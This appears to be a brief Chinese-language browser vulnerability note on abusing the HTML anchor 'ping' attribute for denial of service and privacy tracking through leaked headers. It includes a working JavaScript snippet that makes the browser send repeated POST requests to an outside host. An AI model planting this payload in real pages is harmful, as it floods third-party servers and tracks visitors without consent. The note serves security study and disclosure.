 -----

* 特性：ping属性
* 环境：发送异步请求，完成一次HTTP重定向，循环发送POST请求，造成DOS攻击；<br>
        PING-FROM、USER-AGENT、REFERER泄漏用户的隐私。
* 漏洞类型：DOS攻击、隐私追踪

-----   

举例：
-----
      <script> 
      var link = document.createElement('a'); 
      link.href=""; 
      link.ping = 'http://www.xisigr.com/'; 
      document.head.appendChild(link); link.click(); 
      </script>       
      运行上面的代码，就会不停的向xisigr.com发送POST请求。
